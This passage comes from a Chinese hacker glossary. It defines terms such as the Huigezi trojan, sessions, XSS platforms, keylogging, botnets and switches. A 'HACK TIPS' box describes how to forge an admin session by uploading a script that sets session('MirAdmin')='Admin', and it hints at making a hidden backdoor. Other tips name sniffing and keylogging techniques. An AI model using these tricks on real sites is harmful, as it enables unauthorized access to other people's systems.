例如当我们打开 CMD，输入 net 时，就自动运行了系统目录下的 net.exe 文件。可我们并没有打出完整的路径，系统是怎么知道的呢？这就是因为 path 这个变量已经设置了系统的目录，当系统发现本文件夹没有这个 net 文件时，就会自动去 path 下所设置的路径去找，这样就找到了 net.exe。

同时，环境变量对于语言编译器也有很重要的用途，像 TC 中，`set include=path1;path2;` 是告诉编译程序到哪里去找 .h 类型的文件。当然不仅仅是指定什么路径，还有其它的作用。Windows 下设置环境变量只需要右键点击“我的电脑”，再选“高级”就可进入“环境变量”选项，如图 H-11。



## 缓冲区  特定名称

指计算机中将数据暂时存放的位置。硬盘与 CPU 都有缓冲区，CPU 的叫 Cache，也叫缓存，我们平时所说的【缓冲区溢出】中的缓冲区，是指操作系统所使用的缓冲区，又被称为堆栈。在各个操作进程之间，指令会被临时存储在堆栈当中，堆栈也会出现缓冲区溢出。

## 灰鸽子  黑客工具

国内最著名，也是最流行的木马（注意，没有之一），其重要地位没有其他的木马可以比拟。比起前辈冰河、黑洞来说，灰鸽子可以说是国内后门的集大成者。其丰富而强大的功能、灵活多变的操作、良好的隐藏性，使其他后门都相形见绌。客户端简易便捷的操作使刚入门的初学者都能充当黑客，如图 H-12。

当使用在合法情况下时，灰鸽子是一款优秀的远程控制软件，但如果拿它做一些非法的事，灰鸽子就成了很强大的黑客工具。这就好比火药，用在不同的场合，给人类带来不同的影响。



图 H-12

灰鸽子客户端和服务端都是采用 Delphi 编写，黑客利用客户端程序可配置出服务端程序，其中信息主要包括上线类型，如被动连接还是主动连接（即【反弹连接】）、主动连接时使用的公网 IP（域名）、连接密码、使用的端口、启动项名称、服务名称、进程隐藏方式、使用的壳、代理、图标等等。

服务端对客户端连接方式有多种，使得处于各种网络环境的用户都可能中毒，包括局域网用户（通过代理上网）、公网用户和 ADSL 拨号用户等。

灰鸽子将市面上见得到的木马技术全部都整合在一起，包括反弹连接、强制视频、广播命令、HTTP 透明代理、语音监听、语音发送、进程插入、服务启动等等，总之是包罗万象，让全国数以万计的电脑沦为【肉鸡】，成为了【黑色产业链】的重要环节。

无数人靠其干起了非法的买卖，无数的傀儡机器也都是因为灰鸽子这个木马而产生。虽然软件作者声称这是一个“远程控制软件”，可是其木马的本质是如何都无法抹去的，而全面围剿也就成了必然，如图 H-13。

## 灰鸽子清除器  应用程序

专门用来清除【灰鸽子】的软件，不过如果灰鸽子真的是一款“远程控制软件”，还用得着清除么？


图 H-13

## 汇编语言  程序语言与开发

是将机器码转换成有一定规律，并且容易记忆和理解的语言。

汇编语言仍然是一种和计算机机器语言十分接近的语言，它的书写格式在很大程度上取决于特定计算机的机器指令。由于它是一种低级语言，这对于人们抽象思维和交流十分不便。在这个基础上，高级语言就发展起来了。目前已有许多流行较广的高级语言，如 Fortran、Cobol、Pascal、C 和 C++ 等。这类语言与人们的自然语言比较接近，大大提高了程序设计的效率，便于人们进行交流。

汇编语言的语句与机器语言（机器语言操作码）存在对应关系，但这并不意味着汇编语言语句与机器操作对应。在 CISC（复杂指令集）结构 CPU 上，汇编语言（或一个机器语言操作码）可能被汇编器解译成多个“微指令”。

在今天的实际应用中，它通常被应用在底层硬件操作和高要求的程序优化。驱动程序、嵌入式操作系统和实时运行程序都需要汇编语言，【反编译】程序时也只能将程序先编译成汇编语言。同时，汇编语言所编写的程序运算速度是其他语言所不能比拟的，所以，汇编语言依然在计算机领域占有非常重要的地位。

## 会话  黑客技术基础

会话即 Session。这是指一个终端用户与交互系统进行通信的时间间隔，通常指从注册进入系统到注销退出系统之间所经过的时间。

这种技术最实用的一点体现在可以让用户在登录某个页面后不用反复输入密码。因为用户在登录页面后，Session 对象的信息保存在服务器中，但 ID 保存在客户机的 Cookie 中。当用户关闭了某个 Web 服务器上的网页时，则此服务器与客户机的 Session 对象以及其变量会自动消失。

那么 Session 到底有什么具体的意义呢？当用户访问一个网站时，往往需要浏览许多网页。对于一个通过脚本构筑的网站来说，用户在访问的过程中需要执行许多脚本。然而由于 HTTP 协议自身的特点，用户每执行一个脚本都需要和 Web 服务器重新建立连接，而脚本又由于无状态记忆的特点，此次连接无法得到上次连接的状态。这样，用户在一个脚本中对一个变量进行了赋值操作，而在另外一个 PHP 脚本中却无法得到这个变量的值。

例如，用户在负责登录的 PHP 脚本中设置了【变量】User=cody，而这个 User 变量却无法在另一个脚本中直接调用 User 这个变量来得到。也就是说，在脚本中无法设置全局变量，每个脚本中所定义的变量都只是只在这个脚本内有效的局部变量。

这样的直接后果是各个脚本无法直接传递信息，使之联系不够紧密，而 Session 就可以弥补这个不足。只要提供在脚本中定义全局变量的方法，使得这个全局变量在同一个 Session 中对于所有的脚本都有效。

**Session 是用于保持状态的基于 Web 服务器的方法。Session 允许通过将对象存储在 Web 服务器的内存中，在整个用户会话过程中保持任何对象。**

例如设置了一个名称为 LOGIN 的 Session，只要登录后用户就被赋予了这个 Session，这样每个脚本只要查看这个 Session 就可以判断用户是否登录，同时还可以判断有几个用户在登录，也可以判断用户在页面的停留时间。

## HACK TIPS:

正因为 Session 在脚本中如此重要，所以也常常出现安全问题。当我们有机会向远程主机写入文件时，常常就可以借助 Session 欺骗来进入其他的地方。例如，我已经可以写脚本文件了，但因为无法破解 MD5 密码所以管理后台无法进入，而后台一般的判断语句为：

```vb
if session("MirAdmin")<>"Admin" then
    ShowLogin
```

这时，就可以在远程主机上写入一个脚本文件，给我们的浏览器附上 Session 值，如：`session("MirAdmin")="Admin"`，当访问这个脚本文件后，就可以访问后台了。

通过这个原理我们还可以利用它做一个隐藏的后门，实现的方法就请读者自己尝试。其他关于 Session 的攻击方法请见附录 1 的 **session fixation** 词条。

## 混杂模式｜特定名称

混杂模式是嗅探技术的重要组成部分，在非交换环境下（即通过 HUB 组建起来的网络），HUB 是向所有接口广播收到的包（因为 HUB 不知道哪个包是属于哪个接口的），而计算机的网卡会自动选择接收目的地址为本机 IP 的包，抛弃不属于自己的包。当网卡激活为混杂模式时，就可让网卡接受这些包，并传递给应用层处理，这样就可查看到不属于自己的包。网络管理员可借此分析网络状况，而入侵者则能窃取他人信息。

不过这种方法在交换环境（即通过【交换机】组建的网络）下是不能使用的，此时想嗅探他人的数据就必须借助 ARP 欺骗了。

## 跨站脚本攻击利用平台｜特定名称

随着跨站脚本攻击（XSS）的发展，出现了一种专门用来利用跨站漏洞的脚本程序，当受害者受到跨站脚本攻击后，就会连接到这个程序上。在某些程度上，这种平台有点像木马的控制端，当然，由于脚本语言本身的限制，它的功能并没有木马那么强大。

跨站脚本攻击平台可以由多种脚本语言编写，如 ASP、PHP，以及最流行的几种平台，如：BeEF、XSS Shell，还有最近出来的 Aneq?a。

跨站脚本攻击平台的根本原理其实并不复杂，主要是利用 AJAX 技术与脚本程序进行通信，收到特定的指令后便可用 JS 实现其功能。常见的功能有：窃取客户端 Cookie、键盘记录、端口扫描等。由于这些功能本身是依赖浏览器执行 JS 来实现的，所以当客户端关闭浏览器时，这种平台也就无法控制受害者了。


## 机器码｜程序语言与开发

许多软件为了只让一台计算机使用，所以经常使用机器码作为标识来进行判断。即在用户注册的时候会根据用户软件所安装的计算机软硬件信息生成唯一的识别码，一般称作机器码，也叫序列号、认证码、注册码等。【硬盘】、CPU 都有一个无法修改的出厂标识码，网卡的 MAC 其实也算一种，但它是可以人为修改的。

## 机器语言｜程序语言与开发

机器语言是直接用二进制代码指令表达的计算机语言，指令是用 0 和 1 组成的一串代码，它们有一定的位数，并分成若干段，各段的编码表示不同的含义。

1 可组成各种排列组合，通过线路变成电信号，让计算机执行各种不同的操作。如果某种计算机的指令为 1011011000000000，它表示让计算机进行一次加法操作；而指令 1011010100000000 则表示进行一次减法操作。它们的前八位表示操作码，而后八位表示地址码。从前面两条指令可以看出，它们只是在操作码中从左边第 0 位算起的第 6 和第 7 位不同。这种机型可包含 256（=2 的 8 次方）个不同的指令。

机器语言也称为二进制代码语言，计算机可以直接识别，不需要进行任何翻译。每台机器的指令，其格式和代码所代表的含义都是硬性规定的，故称之为面向机器的语言，也称为机器语言。它是第一代的计算机语言。机器语言对不同型号的计算机来说一般是不同的。

但它也拥有如下缺点，这些弊端造成当时的计算机应用未能迅速得到推广。

- 1、大量繁杂琐碎的细节牵制着程序员，使他们不可能有更多的时间和精力去从事创造性的劳动，执行对他们来说更为重要的任务，如确保程序的正确性、高效性。
- 2、程序员既要驾驭程序设计的全局，又要深入每一个局部，直到实现的细节。即使智力超群的程序员，也常常会顾此失彼，屡出差错，因而所编出的程序可靠性差，且开发周期长。
- 3、由于用机器语言进行程序设计的思维和表达方式与人们的习惯大相径庭，只有经过较长时间职业训练的程序员才能胜任，使得程序设计曲高和寡。
- 4、因为它的书面形式全是“密码”，所以可读性差，不便于交流与合作。
- 5、因为它严重地依赖于具体的计算机，所以可移植性差，重用性差。

我们平时所说的 32 位、64 位操作系统其实也是指指令的长度。32 位就是指令长度为 32 位的操作系统，不同指令长度的操作系统需运行在不同的 CPU 上。

## 机时小偷  黑客工具

一款用来突破网管软件的限制，达到免费上网目的的软件，如图 J-1。使用者无需掌握什么高深计算机知识，也无需对操作系统和网管软件进行设置或修改。软件操作简单而且运行起来很安全，在应用软件操作电脑的时候，网管软件的控制端仍然显示为锁定的状态。



## 畸形 URI  安全技术

即经特殊构造过的 URI。在许多 Web 服务器软件中，提交畸形的 URI 可以达到如拒绝服务，或者访问目录等特殊目的。

## 激活  特定名称

一般指让软件转换成正常使用状态。许多软件或操作系统（如 Windows），在未验证是否为正版之前无法正常使用，激活后则可正常使用。

## 寄存器  操作系统及其相关

- 2、存于寄存器内的地址可用来指向内存的某个位置，即寻址；
- 3、可以用来读写数据到电脑的周边设备。

寄存器通常都是以它们可以保存的位元数量来估量，比如“8 位元寄存器”或“32 位元寄存器”。寄存器现在都以寄存器档案的方式来实作，但是它们也可能使用单独的正反器、高速的核心内存、薄膜内存以及在数种机器上的其他方式来实作出来。

寄存器通常都用来意指由一个指令的输出或输入可以直接索引到的暂存器群组，更适当的称谓应该是“架构寄存器”。例如，x86 指令集定义八个 32 位元寄存器的集合。但一个实作 x86 指令集的 CPU 可以包含比八个更多的寄存器。

## 加花处理  攻击方法与行为

即给指定程序加上【花指令】，以达到免杀的目的。

## 间谍软件  病毒与恶意软件

间谍软件（Spyware）是一种能够在计算机使用者无法察觉，或给计算机使用者造成安全假象的情况下，秘密收集计算机信息，并把它们传给广告商或其他相关人的程序。

间谍软件可以像病毒一样，或因为安装新的程序而进入计算机。虽然没有恶意的倾向，但间谍软件经常会在没有你同意，或者你没有意识到的情况下，以一个 IE 工具条、一个快捷方式作为驱动程序下载，或由于点击一些欺骗的弹出式窗口选项等其它用户无法察觉的程序，被安装在你的电脑内。同样地，广告软件通常包括间谍软件的成分，也可以认为是恶意软件。

假设你能够免费下载一个强大的应用程序，并且该程序能让你完成几乎一个昂贵的知名品牌程序所做的每一件事情。作为完全免费拥有这一不可思议的应用程序的交换，你需要做的就是贡献出你的姓名、地址、电话、电子邮件和一些其他的个人信息。

听起来很不错，不是吗？但是，假设你的个人信息还储存在你的硬盘的某处，在这种情况下，间谍软件很可能通过因特网把你的个人数据传送回广告商处，作为交换更多的广告。

## 监听端口  黑客技术基础

见【端口监听】词条。

## 键  操作系统及其相关

详情请见【注册表】词条。

## 键名  操作系统及其相关

即键的名称，详情请见【注册表】词条。

## 键盘钩子  程序语言与开发

即对键盘消息进行处理的【钩子】（详情请见“钩子”词条），其钩子类型为 WH_KEYBOARD，在早期的盗号【木马】中经常使用，现在由于一些杀毒软件的主动防御技术使其使用价值越来越小。

## 键盘记录  攻击方法与行为

键盘记录是在键盘输入的时候，木马会把你的键盘输入信息记录下来。网上流传最广、最通俗的方法就是安装全局消息【钩子】，从而窃取密码。原来利用消息钩子这种技术获得密码的方法用得比较多，但是从 2006 年起【主动防御】的流行，使得这类方法的行为被监控拦截。

通常有这样几个记录方法：安装全局消息钩子、GetKeyState、GetAsyncKeyState、DirectX 接口，这些方法是从用户态实现的。原始输出设备 Raw Input 用它来窃取密码，这也是属于用户态的。而键盘过滤驱动以及挂钩键盘驱动的 Dispatch 例程等方法，则属于核心态实现的。

## HACK TIPS:

键盘过滤驱动以及挂钩键盘驱动这种驱动级别的记录方法是极具杀伤力的！也就是说，它直接截取的是键盘敲击时传来的信息，而不是操作系统提供的消息。不过也有许多同样利用驱动防止键盘记录的技术，如腾讯 QQ 使用的 nProtect 技术。

## 江民杀毒软件——应用程序

一个老牌的杀毒软件，不过由于其【内存】占用率与 CPU 使用率高于同类型的一些产品，所以市场占有率一直不太理想。



## 僵尸网络——特定名称

僵尸网络是指采用一种或多种传播手段，将大量主机感染 bot 程序（僵尸程序），从而在控制者和被感染主机之间所形成的一个可一对多进行控制的网络，如图 J-3。这个网络是采用了一定的恶意传播手段形成的，例如主动漏洞攻击、邮件病毒、网页木马等都是攻击者得到僵尸主机的手段。

Botnet 的最主要特点，就是可以一对多地执行相同的恶意行为。比如可以同时对某目标网站进行【分布式拒绝服务】（DDoS）攻击、发送大量的垃圾邮件，或者利用其控制的主机访问指定的广告页面，获取流量等。而正是这种一对多的控制关系，使得攻击者能够以极低的代价高效地控制大量的资源为其服务，这也是 Botnet 攻击模式近年来受到黑客青睐的根本原因。



在执行恶意行为的时候，Botnet 充当了一个攻击平台的角色，这也就使得 Botnet 不同于简单的病毒和蠕虫，也与通常意义的木马有所不同。

有许多木马可以组建僵尸网络，例如鼎鼎有名的【灰鸽子】（虽然作者声称为“远程控制软件”），还有许多用来 DDoS 的工具都有这样的功能。一般都是由攻击者在跳板主机通过【广播命令】向所有的僵尸主机发送统一命令，然后所有的僵尸主机将会攻击同一个目标，这种多对一的攻击方式非常具有威力。

## 交换机  硬件

交换机是一种基于 MAC 地址识别，能完成封装转发数据包功能的网络设备。交换机可以“学习”MAC 地址，并把其存放在内部地址表中，通过在数据帧的始发者和目标接收者之间建立临时的交换路径，使数据帧直接由源地址到达目的地址。

交换是指按照通信两端传输信息的需要，用人工或设备自动完成的方法，是把要传输的信息送到符合要求的相应路由上的技术统称。广义的交换机（Switch）就是一种在通信系统中完成信息交换功能的设备，如图 J-4，为一个 48 口的交换机。



在计算机网络系统中，交换概念的提出是对于共享工作模式的改进。HUB 就是一种共享设备，HUB 本身不能识别目的地址，当同一局域网内的 A 主机给 B 主机传输数据时，数据包在以 HUB 为架构的网络上是以广播方式传输的，由每一台终端通过验证数据包头的地址信息来确定是否接收。也就是说，在这种工作方式下，同一时刻网络上只能传输一组数据帧的通信，如果发生碰撞还得重试。这种方式就是共享网络带宽。

而交换机正是为解决这种碰撞而产生的。交换机的所有端口都挂接在这条内部总线上，控制电路收到数据包以后，处理端口会查找内存中的地址对照表，以确定目的 MAC 的【网卡】挂接在哪个端口上，然后通过内部交换矩阵迅速将数据包传送到目的端口，目的 MAC 若不存在，才广播到所有的端口。接收端口回应后，交换机会“学习”新的地址，并把它添加入内部 MAC 地址表中。

使用交换机也可以把网络“分段”，通过对照 MAC 地址表，交换机只允许必要的网络流量通过交换机。通过交换机的过滤和转发，可以有效地隔离广播风暴，减少误包和错包的出现，避免共享冲突。

交换机在同一时刻可进行多个端口之间的数据传输，每一端口都可视为独立的网段，连接在其上的网络设备独自享有全部的带宽，无须同其他设备竞争使用。当节点 A 向节点 D 发送数据时，节点 B 可同时向节点 C 发送数据，而且这两个传输都享有网络的全部带宽，都有着自己的虚拟连接。

交换机主要有以下几个功能：

- 学习：以太网交换机了解每一端口相连设备的 MAC 地址，并将地址同相应的端口映射起来，存放在交换机缓存中的 MAC 地址表中。
- 转发／过滤：当一个数据帧的目的地址在 MAC 地址表中有映射时，它被转发到连接目的节点的端口，而不是所有端口（如该数据帧为广播／组播帧则转发至所有端口）。
- 消除回路：当交换机包括一个冗余回路时，【以太网】交换机通过生成树协议避免回路的产生，同时允许存在后备路径。

#### HACK TIPS

利用交换机可以很好地防止最原始的广播嗅探技术，但不能防止 ARP 欺骗。即使在路由器与主机两边都双向绑定了 MAC，也可以利用【无 ARP 欺骗嗅探技术】进行欺骗，常见的利

## J、黑客词典

用工具有 SSCLONE，如图 J-5。



图 J-5

### 脚本语言

即脚本所用的编程语言，详情请见本书导读。

## 节（Section）调试技术

即 Section，它是由编译器生成的可重定位的代码和数据块。Section 块用来控制段的构成与地址分配。

### 结束进程（黑客技术基础）

即将【进程】终止，一般可以用【任务管理器】或【冰刃】进行终止，也可以在【命令行】下用 tskill 命令将其终止，其语法如下：

```text
TSKILL processid | processname [/SERVER:servername] [/ID:sessionid | /A] [/V]
```

相关参数如下：

| 参数 | 说明 |
|---|---|
| processid | 要结束的进程的 Process ID。 |
| processname | 要结束的进程名称。 |
| /SERVER:servername | 含有 processID 的服务器（默认值是当前值）。使用进程名和 /SERVER 时，必须指定 /ID 或 /A。 |
| /ID:sessionid | 结束在指定会话下运行的进程。 |
| /A | 结束在所有会话下运行的进程。 |
| /V | 显示正在执行的操作的信息。 |

例如 cmd.exe 的 PID 为 658，则只需要输入 tskill 658 就可以结束 CMD.exe 进程了。

### 金山毒霸（应用程序）

金山毒霸与【江民杀毒软件】一样，是老牌的杀毒软件，也是几个主流杀毒软件厂商之一。可因为其【脱壳】能力较弱，杀毒能力不如其他类型产品，如图 J-6。

### 进程（操作系统及其相关）

进程是程序在计算机上的一次执行活动，当运行一个程序，就启动了一个进程。进程可以分为系统进程和用户进程。凡是用于完成操作系统的各种功能的进程就是系统进程，它们就是处于运行状态下的操作系统本身；用户进程就是所有由用户启动的进程。进程是操作系统进行资源分配的单位。

